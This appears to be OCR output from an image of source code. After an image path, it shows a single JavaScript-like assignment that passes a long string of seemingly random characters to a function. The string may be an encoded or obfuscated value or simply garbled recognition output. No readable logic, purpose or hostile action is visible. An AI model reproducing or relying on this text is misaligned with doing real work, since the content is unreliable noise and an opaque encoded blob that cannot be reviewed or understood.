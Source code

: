 a=r(e,"/D.hXW,mli;y}84{iy;,{iX}i{{WXWil4yh}4fDyhil;88hZlh8,.im}}{..m8}lDy,4y{Xyy}D4D8iy?l,{WiyD{{W.;W{,lX{}X;;lim4{h8ir4hhX}m.8l}8m8W.8my}4.Dm.+U,8}}D4Dh,{yio}W{yIh,;}{{h;;.{,X};,;T{0Xh;X4ih}l{4jlX4WA{,X8}h;l.yD.yWy}y{iWD,}8mD.,WylLi}?sh,};l#8,+;W0mX{i8},K4,DyiF},hyDIXWl;}_hW,;l8hXXmi}}D{m%Z4mm86}4,.},d}D;yi0{W;;8{4W=W{{yWhWl4}WDWD4W{mi;4ihDi}8yhy.}l}8..Wml}iWi},.8.m;4..mX}.Dl,.;8VyK.mD;l{yX4i{W,iid.h4;h{,hyi84WhhW};X{mW.i{{iX8i4{hh8ih4Xh}l}84hllyyW.XWy;4aDW.AiX}yW{DW,;i44W-il4,3{Wm;;pWW.;X{8X{i8{lXXi84}X_im4mh},ly{Q4,DyX,i8h.D,WWhyi{iX}i{{IllrDX4;.4,XDm.8{X,mW4D.{l{8DhDlW},.XD8,4}DDX,my;48}{{h*,W{;}{{W.;hWl;8{mX{;lim?Xh8ib4hhX},hyl44BDlm8}4D8,X8l.imh}yDmm,i4D.,_yhSm,hliE{,.yh;XxDX;i8{3XD{Dh4;W4WXXiX{Rh4illD88.mm;}8D48m.Wm}8S.D,y}h){)y,iyDKXWm;lhi;{{;X8i4{r{{my{h{ih8l44DhXlm8;.8lPDh.,lX}}D{m.}hWWy}Di,,;yD(,lyD7{,;W,;8{}X{;.{hlh{7WmXDi}4mh;l884,y4;h8l}y,.mliml}{D4mD}Xly4h.8mW,h}XOiW};{Uzii{8,hy.8WX8;;4yX8;+4lhmiyl}{-h.lW8l.iyy..m{}}Blm}8XD},}}.#{, },A4,myi;4BiWX;m{;Xy8XXli}4;WDiy{,4WW7ly84hDl.DDli8,.4hh8;.DmDm{{,,4}yu4,8}hvlDmy8I.,.yi{yWyX};m{.XWil4imD{bX.iy8{hyiXlh4B.im}}{.M;,D},{;x.,ml}yDi,y,9}{*,Wi;}{8yX{m,Ei})DWXii{yXhiDy;A.WWy.{}WW;;{;WDi{4{XXi,48h{i,4hDhmhyi%}W{ykhiyD*4WDyET,XyW;8iXi;D{D4iWXl{4.hWl,78l;4,.i,;8Wh,hM;y.y,ym}.yWm}hDDmDyhDh,m;lO,,iWv;8{,Xii}48mm{hX}iA{z{D,{8}Xh.8l88h.,mi};W.8D.h,4}XDWXm}hDhW4y.D.